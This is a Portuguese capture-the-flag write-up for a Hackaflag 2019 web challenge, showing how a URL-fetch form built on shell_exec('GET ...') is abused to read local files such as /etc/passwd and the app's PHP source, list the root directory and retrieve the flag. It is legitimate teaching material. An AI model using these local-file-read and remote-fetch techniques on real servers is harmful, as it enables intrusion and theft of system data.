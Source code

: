 # Don't go breaking my heart

- Desafio da etapa de Belo Horizonte do Hackaflag 2019
- Data do desafio: 2019-06-29
- Categoria: web
- URL original:

A URL leva a uma página com dois campos ("filename" e "Put the URL file") e um botão "send". Inserindo qualquer conteúdo e clicando no botão, a página é atualizada com o caminho do arquivo criado. Ao acessar o arquivo criado, uma página qualquer é carregada. Digitando apenas "abc" no segundo campo, a página do canal americano ABC (`abc.com`) é carregada. Com alguns testes, percebemos que o sistema está buscando o endereço informado no segundo campo e salvando uma cópia em um arquivo com o nome informado no primeiro campo.

Uma possibilidade é criar um código PHP simples e tentar copiá-lo e executá-lo no site. Vamos criar um arquivo no Pastebin com o conteúdo `<?php print("Teste"); ?>`, inserir o endereço (_raw_) no segundo campo e o nome `teste.php` no primeiro campo. Ao enviar, percebemos que o arquivo foi renomeado para `testephp`, removendo o ponto e limitando a possibilidade de especificar extensões.

Outra possibilidade é inserir uma URL **local** da máquina. Se inserirmos `localhost`, obtemos a própria página novamente. Inserindo `/etc/passwd`, obtemos o seguinte resultado:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```

O conteúdo retornado indica que é possível acessar arquivos locais. Inserindo `/var/www/html/index.php` e inspecionado o código-fonte da página gerada, obtemos o código-fonte em PHP, que confirma nossas suspeitas: o programa executa o comando `GET`.

```php
<?php
ini_set('display_errors',1);
ini_set('display_startup_erros',1);
error_reporting(E_ALL);
$sandbox = "uploads/" . md5("x09x09x09x0x90x90x909x09x0aaa___" . $_SERVER["REMOTE_ADDR"]);
@mkdir($sandbox);
@chdir($sandbox);

if(isset($_POST['urlfile'])){
  $data = shell_exec("GET " . escapeshellarg($_POST["urlfile"]));
  $info = pathinfo($_POST["name"]);
  $dir  = str_replace(".", "", basename($info["dirname"]));
  @mkdir($dir);
  @chdir($dir);
  @file_put_contents(str_replace(".","",basename($info["basename"])), $data);
  if(file_exists(str_replace(".","",basename($info['basename'])))){
    $ok = 'file: '.$sandbox."/".str_replace(".","",basename($info['basename']));
  }else{
    $text = 'error';
  }
}
?>
<html>
<head>
<title>xxx</title>
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">

</head>
<body>
<div class='container'>
<form method='post'>
<input name='name' placeholder='filename'>
<input name='urlfile' placeholder='Put the URL file'>
<button type='submit' class='btn'>send</button>
</form>
</div>
<div class='container'>
<?php
if(isset($ok)){
  echo $ok;
}else if(isset($text)){
  echo $text;
}
?>
</div>
</body>
</html>
```

Inserindo apenas `/` no segundo campo, o comando `GET` retornará todos os arquivos e pastas na raiz do sistema.

> Directory listing of /
> 
> - ./
> - ../
> - .dockerenv
> - 41eb682bbf429e4a3aeff0c721af38cc
> - app/
> - bin/
> - boot/
> - create_mysql_admin_user.sh
> - dev/
> - etc/
> - home/
> - lib/
> - lib64/
> - media/
> - mnt/
> - opt/
> - proc/
> - root/
> - run/
> - run.sh
> - sbin/
> - srv/
> - start-apache2.sh
> - start-mysqld.sh
> - sys/
> - tmp/
> - usr/
> - var/
> - x

Um dos arquivos chama a atenção: `41eb682bbf429e4a3aeff0c721af38cc`. Inserindo `/41eb682bbf429e4a3aeff0c721af38cc` no segundo campo, obtemos o conteúdo dele: `HACKAFLAG{uuuh_1_couldnt_1f_1_tr13d}`.

